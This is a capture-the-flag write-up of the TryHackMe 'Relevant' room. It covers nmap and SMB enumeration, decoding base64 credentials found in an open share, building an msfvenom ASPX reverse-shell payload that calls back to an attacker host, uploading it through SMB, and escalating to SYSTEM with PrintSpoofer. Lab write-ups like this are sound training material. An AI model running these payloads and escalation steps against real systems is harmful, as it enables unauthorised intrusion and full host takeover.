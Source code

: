 Relavant (Tryhackme)

![Room Icon](https://tryhackme-images.s3.amazonaws.com/room-icons/10524728b2b462e8d164efe4e67ed087.jpeg)

Penetration Testing Challenge

# Enumeration

## Nmap

```jsx
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server

135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn

445/tcp   open  microsoft-ds  syn-ack ttl 125 Windows Server 2016 Standard Evaluation 14393 microsoft-ds

3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Issuer: commonName=Relevant
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-04T13:17:24
| Not valid after:  2025-12-04T13:17:24
| MD5:   9ddf:ed34:3c12:2d90:122e:611d:d885:719d
| SHA-1: 5577:0fbe:8a32:a7d3:3b5c:122e:ce23:b5bb:6961:b44d
|_ssl-date: 2025-06-05T13:23:37+00:00; -1s from scanner time.

49663/tcp open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0

49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC

```

## SMB (445)

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ smbclient -L \\\\10.10.102.138\\
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.102.138 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ smbclient \\\\10.10.102.138\\nt4wrksv
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 25 17:46:04 2020
  ..                                  D        0  Sat Jul 25 17:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

```

```jsx
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
Bob - !P@$$W0rD!123 
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$
```

![image](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/3f2c4eb2f420cf3dc3c24b324c83a916a4f5110d/Relevant(THM)/image%20(1).png?raw=true)




```jsx
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=53 -f aspx -o rev.aspx

```

- `.aspx` is the file extension for **ASP.NET web pages**, used on **Windows servers running IIS**
- we will upload this from smb
- We got shell and get user.txt

## ROOT

- check whoami `/priv`

```jsx
SeImpersonatePrivilege enable
```

### PrintSpoofer

```jsx
┌──(kali㉿kali)-[/opt/tools/printspoofer]
└─$ smbclient \\\\10.10.102.138\\nt4wrksv
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> put PrintSpoofer.exe
putting file PrintSpoofer.exe as \PrintSpoofer.exe (18.5 kb/s) (average 18.5 kb/s)
smb: \> 

```

```jsx
c:\inetpub\wwwroot\nt4wrksv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv

06/05/2025  07:12 AM    <DIR>          .
06/05/2025  07:12 AM    <DIR>          ..
07/25/2020  08:15 AM                98 passwords.txt
06/05/2025  07:12 AM            27,136 PrintSpoofer.exe
06/05/2025  06:52 AM             3,424 rev.aspx
               3 File(s)         30,658 bytes
               2 Dir(s)  21,045,948,416 bytes free

c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
```

```jsx
C:\Windows\system32>whoami
whoami
nt authority\system

```
